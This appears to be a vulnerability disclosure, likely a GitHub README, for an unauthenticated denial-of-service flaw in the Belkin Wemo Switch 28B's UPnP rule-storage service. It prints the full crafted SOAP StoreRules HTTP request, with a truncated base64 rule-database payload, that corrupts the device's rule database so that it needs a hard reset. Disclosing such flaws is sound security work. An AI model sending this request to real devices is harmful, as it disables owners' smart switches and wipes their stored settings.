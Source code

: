 # DoS Vulnerability in the Wemo Switch 28B

The Wemo Switch is a smart socket developed by Belkin. In this blogpost, I consider the Wemo switch 28B (sn 221441K010028B), whereas the firmware version is WeMo_WW_2.00.11057.PVT-OWRT-SNS.

The way the rules are handled in the device's firmware allows an attacker to perform a DoS on the device and corrupt the database in a way that the app cannot recover, making the user unable to set/remove any rules.

In particular, the device stores rules in an internal database, which is sent by the app (in a compressed format), every time a rule is added (or removed). No authentication is required.

This repo contains the exploit to perform the DoS. As you can see, once the new database is accepted by the device, further rules from the app are not accepted, and the user must hard reset the device, losing all the information they previously stored.

Below, the generated HTTP request.

```
 POST /upnp/control/rules1 HTTP/1.1\r\n
    Host: 10.250.250.144:49153\r\n
    Accept: */*\r\n
    Content-Type: text/xml; charset="utf-8"\r\n
    SOAPACTION: "urn:Belkin:service:rules:1#StoreRules"\r\n
    User-Agent: CyberGarage-HTTP/1.0\r\n
    Content-Length: 1004\r\n
    <?xml
        version="1.0"
        encoding="utf-8"
        ?>
    <s:Envelope
        xmlns:s="http://schemas.xmlsoap.org/soap/envelope/"
        s:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
        <s:Body>
            <u:StoreRules
                xmlns:u="urn:Belkin:service:rules:1">
                <ruleDbVersion>
                    12
                    </ruleDbVersion>
                <processDb>
                    1
                    </processDb>
                <ruleDbBody>
                     [truncated]&lt;![CDATA[UEsDBBQAAAAIAIN6kEyxkTDHIgEAAADAAAASABwAdGVtcHBsdWdpblJ1bGVzLmRiVVQJAAOWIdValiHVWnV4CwABBOgDAAAE6AMAAO3Wu0rDYACG4T9tjba1WFwcumRU1MkbsEoXETwuTqVKBMUDar2zDt6JVyHi6uQvCEIFD4ux9nnCGxIC4cuWvZ3Nk36eHV9en/f62UpohiQJq1kWQmj
                    </ruleDbBody>
                </u:StoreRules>
            </s:Body>
        </s:Envelope>
 ```
